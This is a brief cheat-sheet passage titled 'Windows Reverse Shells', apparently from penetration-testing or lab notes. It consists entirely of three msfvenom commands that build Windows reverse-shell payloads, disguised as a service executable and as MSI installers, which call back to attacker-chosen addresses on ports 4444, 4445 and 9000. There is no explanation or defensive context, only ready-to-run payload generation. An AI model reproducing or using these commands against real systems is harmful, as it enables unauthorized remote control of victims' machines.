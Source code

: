 ### Windows Reverse Shells
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.157.28 LPORT=4444 -o gingerlyservice.exe
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.239.36 LPORT=9000 -a x64 --platform Windows -f msi -o rev.msi
```
